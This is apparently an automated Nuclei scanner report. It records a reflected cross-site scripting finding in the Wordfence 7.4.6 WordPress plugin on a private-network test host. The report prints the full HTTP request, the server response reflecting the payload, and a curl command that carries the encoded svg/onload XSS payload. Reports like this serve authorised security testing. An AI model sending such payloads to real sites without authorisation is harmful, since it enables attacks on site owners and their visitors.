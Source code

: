 ### WordPress Wordfence 7.4.6 Cross Site Scripting (wordpress-wordfence-xss) found on http://192.168.198.179:8080/
---
**Details**: **wordpress-wordfence-xss**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/wordfence/lib/diffResult.php?file=%27%3E%22%3Csvg%2Fonload=confirm%28%27test%27%29%3E

**Timestamp**: Wed Jun 8 20:22:16 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Wordfence 7.4.6 Cross Site Scripting |
| Authors | madrobot |
| Tags | wordpress, wp-plugin, xss, wordfence |
| Severity | medium |

**Request**
```http
GET /wp-content/plugins/wordfence/lib/diffResult.php?file=%27%3E%22%3Csvg%2Fonload=confirm%28%27test%27%29%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 226
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/wordfence/lib/diffResult.php?file='>"<svg/onload=confirm('test')></B> was not found.</BODY></HTML>
```


**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/wordfence/lib/diffResult.php?file=%27%3E%22%3Csvg%2Fonload=confirm%28%27test%27%29%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)